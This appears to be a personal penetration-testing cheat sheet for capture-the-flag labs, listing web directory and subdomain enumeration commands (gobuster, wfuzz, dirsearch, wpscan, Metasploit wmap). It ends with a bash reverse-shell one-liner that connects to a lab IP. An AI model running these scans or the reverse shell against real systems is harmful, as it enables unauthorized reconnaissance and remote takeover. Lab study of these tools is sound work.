 ## Directory Discovery

Word lists are at `/usr/share/wordlists` (In KALI)

```
gobuster dir -u URL:port -t threads -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

## Search for subdomains

```
wfuzz -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u URL -v -c -H "Host:FUZZ.NAME.htb" --hw 26
```

Search for PHP files

```
gobuster dir -u http://IP/ -t 80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php
```

Backup: (Can get through things ^^^ can't)

```
dirsearch -u http://ipaddress
```

```
dirb http://IP/
```

-X .sh - extensions to search

-w /path/to/wordlist - wordlist


## Replicate website on local storage

```
wget http://ip/ -r
```
https:
```
wget http://ip/ -r --no-check-certificate
```

## Wordpress vulnerability checker

```
wpscan --url URL
```

--plugin-detection aggressive    -   Takes a long time, but digs up good dirt


## WMAP - Map website tool

Load module in msfconsole
```
load wmap
```

Add target site
```
wmap_sites -a http://IP
```
And
```
wmap_targets -t http://ip-address
```
Execute
```
wmap_run -e
```


## Reverse Shell through encded URL

```
bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'
```
